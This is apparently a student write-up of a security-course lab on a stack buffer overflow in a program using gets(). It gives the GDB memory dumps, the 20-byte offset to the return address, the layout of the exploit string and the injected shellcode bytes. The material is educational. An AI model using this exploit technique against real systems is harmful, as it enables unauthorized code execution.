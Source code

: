 # 01 - Remus Writeup

## Main Idea

The code is vulnerable because `gets(buf)` does not check the length of the input from the user. So we can inject the SHELLCODE right after the return address, and overwrite the return address with the address of the shellcode.  

## Magic Numbers

The address of buffer is `0xffffd698`, the RIP is `0xffffd6ac`, so the location of RIP is 20 bytes away from the start of the buffer (0xffffd6ac - 0xffffd698).

``` C++
(gdb) x/16x buf
0xffffd698:  0x00000000   0x00000000   0x00000000   0x00000000
0xffffd6a8:  0xffffd6b8   0x08049208   0x00000001   0x080491fd   
0xffffd6b8:  0xffffd73c   0x080493d6   0x00000001   0xffffd734   
0xffffd6c8:  0xffffd73c   0x0804a000   0x00000000   0x00000000
(gdb) i f
Stack level 0, frame at 0xffffd6b0:
 eip = 0x80491eb in orbit (orbit.c:5); saved eip = 0x8049208
 called by frame at 0xffffd6c0
 source language c.
 Arglist at 0xffffd6a8, args:
 Locals at 0xffffd6a8, Previous frame's sp is 0xffffd6b0
 Saved registers:
  ebp at 0xffffd6a8, eip at 0xffffd6ac
```

## Exploit Structure

Here is the stack diagram.


The exploit has three parts:

1. Write 20 dummy characters to overwrite `buf`, the compiler padding, and the sfp.
2. Overwrite the rip with the address of the shellcode. Since we are putting shellcode directly after the rip, we overwrite the rip with `0xffffd6b0` (`0xffffd6ac + 4`).
3. Finally, insert the shellcode directly after the rip.

This causes the `orbit` function to start executing the shellcode at address `0xffffd6b0` when it returns.

## Exploit GDB Output

When we ran GDB after inputting the malicious exploit string, we got the following output:

```C++
(gdb) x/16x buf
0xffffd698:  0x41414141   0x41414141   0x41414141   0x41414141
0xffffd6a8:  0x41414141   0xffffd6b0   0xcd58326a   0x89c38980
0xffffd6b8:  0x58476ac1   0xc03180cd   0x692d6850   0xe2896969
0xffffd6c8:  0x6d2b6850   0xe1896d6d   0x2f2f6850   0x2f686873
```

